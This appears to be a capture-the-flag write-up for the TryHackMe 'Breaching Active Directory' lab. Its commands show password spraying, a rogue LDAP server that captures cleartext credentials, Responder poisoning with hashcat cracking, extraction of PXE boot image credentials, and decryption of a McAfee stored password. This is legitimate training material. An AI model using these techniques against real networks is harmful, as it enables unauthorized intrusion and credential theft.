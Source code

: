 # Breaching Active Directory

**Room Link:** [https://tryhackme.com/room/breachingad](https://tryhackme.com/room/breachingad)



## Introduction to AD Breaches

**Kali**

```
systemd-resolve --interface breachad --set-dns $THMDCIP --set-domain za.tryhackme.com
nslookup thmdc.za.tryhackme.com
```

## NTLM Authenticated Services

**Kali**

```
unzip passwordsprayer.zip 
python /root/Rooms/BreachingAD/task3/ntlm_passwordspray.py -u usernames.txt -f za.tryhackme.com -p Changeme123 -a "http://ntlmauth.za.tryhackme.com"
```

<figure><img src="../../.gitbook/assets/image (15) (8).png" alt=""><figcaption></figcaption></figure>

## LDAP Bind Credentials

**Kali**

```
service slapd stop
nc -lvp 389
```

<figure><img src="../../.gitbook/assets/image (9) (9).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (14) (10).png" alt=""><figcaption></figcaption></figure>

### Hosting a Rogue LDAP Server

**Kali**

```
sudo apt-get update && sudo apt-get -y install slapd ldap-utils && sudo systemctl enable slapd
sudo dpkg-reconfigure -p low slapd
```

<figure><img src="../../.gitbook/assets/image (13) (1) (4) (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (5) (1) (4) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
vi olcSaslSecProps.ldif
```



**olcSaslSecProps.ldif**

```
dn: cn=config
replace: olcSaslSecProps
olcSaslSecProps: noanonymous,minssf=0,passcred
```

The file has the following properties:

* olcSaslSecProps: Specifies the SASL security properties
* noanonymous: Disables mechanisms that support anonymous login
* minssf: Specifies the minimum acceptable security strength with 0, meaning no protection.

Now we can use the ldif file to patch our LDAP server using the following:

**Kali**

```
sudo ldapmodify -Y EXTERNAL -H ldapi:// -f ./olcSaslSecProps.ldif && sudo service slapd restart
ldapsearch -H ldap:// -x -LLL -s base -b "" supportedSASLMechanisms
```

**Before**

<figure><img src="../../.gitbook/assets/image (12) (10).png" alt=""><figcaption></figcaption></figure>

**After**

<figure><img src="../../.gitbook/assets/image (11) (1) (3).png" alt=""><figcaption></figcaption></figure>

### Capturing LDAP Credentials

Our rogue LDAP server has now been configured. When we click the "Test Settings" at [http://printer.za.tryhackme.com/settings.aspx](http://printer.za.tryhackme.com/settings.aspx), the authentication will occur in clear text. If you configured your rogue LDAP server correctly and it is downgrading the communication, you will receive the following error: "This distinguished name contains invalid syntax". If you receive this error, you can use a tcpdump to capture the credentials using the following command:



<figure><img src="../../.gitbook/assets/image (6) (5) (3).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
sudo tcpdump -SX -i breachad tcp port 389
```

<figure><img src="../../.gitbook/assets/image (1) (1) (2) (3) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (10) (9).png" alt=""><figcaption></figcaption></figure>



## Authentication Relays

**Kali**

```
sudo service slapd stop
sudo responder -I breachad
```

<figure><img src="../../.gitbook/assets/image (7) (5) (2) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (8) (14).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (3) (9) (2) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
hashcat -m 5600 hash.txt passwordlist.txt --force 
hashcat -m 5600 hash.txt passwordlist.txt --force --show
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (6).png" alt=""><figcaption></figcaption></figure>

## Microsoft Deployment Toolkit

**Kali**

```
ssh thm@THMJMP1.za.tryhackme.com
Password: Password1@
```

**Victim**

```
cd Documents
mkdir thm
copy C:\powerpxe thm
cd thm
```

**Victim**

```
tftp -i $THMMDTIP GET "\Tmp\x64{39...28}.bcd" conf.bcd
```

**Victim**

```
powershell -executionpolicy bypass
Import-Module .\PowerPXE.ps1
$BCDFile = "conf.bcd"
Get-WimFile -bcdFile $BCDFile
```

**Victim**

```
tftp -i $THMMDTIP  GET "<PXE Boot Image Location>" pxeboot.wim
```

**Victim**

```
Get-FindCredentials -WimFile pxeboot.wim
```

## Configuration Files

**Victim**

```
cd C:\ProgramData\McAfee\Agent\DB
```

**Victim**

```
scp thm@THMJMP1.za.tryhackme.com:C:/ProgramData/McAfee/Agent/DB/ma.db .
Password: Password1@
```

**Kali**

```
sqlitebrowser ma.db
```

**Kali**

```
cp /root/Rooms/BreachingAD/task7/mcafeesitelistpwddecryption.zip .
unzip mcafeesitelistpwddecryption.zip
```

<figure><img src="../../.gitbook/assets/image (4) (1) (8) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
python2 mcafee-sitelist-pwd-decryption-master/mcafee_sitelist_pwd_decrypt.py  jWbTyS7BL1Hj7PkO5Di/QhhYmcGj5cOoZ2OkDTrFXsR/abAFPM9B3Q==
```

<figure><img src="../../.gitbook/assets/image (18) (7).png" alt=""><figcaption></figcaption></figure>

a
